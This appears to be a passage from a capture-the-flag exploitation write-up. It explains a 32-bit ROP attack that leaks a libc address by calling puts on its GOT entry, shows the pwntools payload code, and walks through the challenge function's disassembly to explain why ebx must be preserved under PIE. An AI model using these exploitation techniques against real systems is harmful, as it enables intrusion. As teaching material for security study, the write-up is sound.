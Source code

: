 ### But wait!  There's more...

There's an easier way to solve this without all the reverse engineering.

An alternative attack can be performed by leaking the libc base and version. Once both are known, a number of attacks can be used to get a remote shell.

```
payload  = 20 * b'A'
payload += p32(baseproc + binary.symbols['_GLOBAL_OFFSET_TABLE_'])
payload += p32(0xba5e0f10)
payload += p32(baseproc + binary.plt['puts'])
payload += p32(baseproc + binary.symbols['room4'])
payload += p32(baseproc + binary.got['puts'])

p.sendline(payload)
_ = p.recvuntil('something: ')

puts = u32(_[:4])
print("puts:" + str(hex(puts)))
```

This pattern should look familiar, send 28 bytes, then overwrite the return address with the function we want to call, then overwrite that function's return address followed by function arguments.  Above, `puts` is called and passed a single parameter (pointer to `puts` from the GOT).  This will emit the address of `puts` from libc.  If this is not obvious to you, then read up on [GOT and PLT](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) (first Google hit).

_But wait! What is this!?:_

```
payload += p32(baseproc + binary.symbols['_GLOBAL_OFFSET_TABLE_'])
payload += p32(0xba5e0f10)
```

Ah, well, let's take a closer look at the `room4` disassembly:

```
00011580 55              PUSH       EBP
00011581 89 e5           MOV        EBP,ESP
00011583 53              PUSH       EBX
00011584 83 ec 24        SUB        ESP,0x24
```

At the start of a function (`room4`) the base pointer is pushed to the stack, then the stack pointer copied to the base pointer.  All of the local variables are addressed relative to the base pointer.  The `SUB ESP,0x24` is the allocation of local variable space; in this case `0x24` (36 bytes).  However, before that `ebx` is pushed to the stack.

> _`ebx`: this register serves as the global offset table base register for position-independent code.  For absolute code, `ebx` serves as a local register and has no specified role in the function calling sequence.  In either case, a function must preserve the register value for the caller. -- [SYSTEM V APPLICATION BINARY INTERFACE Intel386<sup>TM</sup> Architecture Processor Supplement, Fourth Edition](http://refspecs.linuxbase.org/elf/abi386-4.pdf), pp. 37_

Thanks to PIE being enabled, `ebx` has to be preserved between function calls.
